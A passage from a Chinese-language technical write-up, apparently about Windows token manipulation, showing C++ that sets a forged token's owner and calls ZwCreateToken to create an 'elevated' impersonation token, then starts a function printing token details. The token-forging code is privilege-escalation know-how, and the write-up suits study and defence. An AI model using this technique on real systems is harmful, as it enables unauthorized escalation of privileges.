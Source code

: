 为了能够成功模拟新生成的令牌，还有最后重要的一点，就是将令牌的拥有者设为当前用户。这里也是先查询当前进程令牌的 TokenUser 信息，该信息与访问令牌关联的用户的 SID，我们只需要将这个 SID 设置到 `ZwCreateToken()` 函数的 `Owner` 参数中即可：

```
pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);
// ...
pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
pTokenOwner->Owner = pTokenUser->User.Sid;
```

最后将调用 `ZwCreateToken()` 函数来生成模拟令牌，生成的令牌被保存在 `pElevatedToken` 指针所指向的内存中：

```c++
Status = ZwCreateToken(
	&pElevatedToken,
	TOKEN_ALL_ACCESS,
    &objectAttributes,
    TokenImpersonation,
    &AuthenticationId,
    &ExpirationTime,
    pTokenUser,
    pTokenGroups,
    pTokenPrivileges,
    pTokenOwner,
    pTokenPrimaryGroup,
    pTokenDefaultDacl,
    &tokenSource
);
if (Status != STATUS_SUCCESS)
{
	wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
    goto Clear;
}
wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");
```

### Display Token Information

如果没有什么问题，`CreateUserToken()` 会将新令牌返回到主函数，并传递给 `DisplayTokenInformation()` 函数获取并打印令牌的 TokenStatistics、TokenGroups、TokenIntegrityLevel 和 TokenPrivileges 信息，如下所示。

```c++
BOOL DisplayTokenInformation(HANDLE hToken)
{
	BOOL status = FALSE;
	DWORD dwLength = 0;
	PTOKEN_STATISTICS pTokenStatistics = NULL;
	PTOKEN_GROUPS pTokenGroups = NULL;
	DWORD dwNameSize;
	DWORD dwDomainSize;
	LPWSTR lpGroupName = NULL;
	LPWSTR lpDomainName = NULL;
	LPWSTR lpGroupAccountName = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
	SID_NAME_USE peUse;

	PTOKEN_MANDATORY_LABEL pTokenIntegrityLevel = NULL;
	PSID pSid;
	LPWSTR lpGroupSid;
	LPWSTR lpIntegritySid;
	UINT len = 0;
	PTOKEN_PRIVILEGES pTokenPrivileges = NULL;
	LPWSTR lpName = NULL;
	LPWSTR lpAttrbutes = (LPWSTR)LocalAlloc(LPTR, 8 * sizeof(WCHAR));

	// Get Token Statistics Information
	pTokenStatistics = (PTOKEN_STATISTICS)GetTokenInfo(hToken, TokenStatistics);
	if (pTokenStatistics != NULL)
```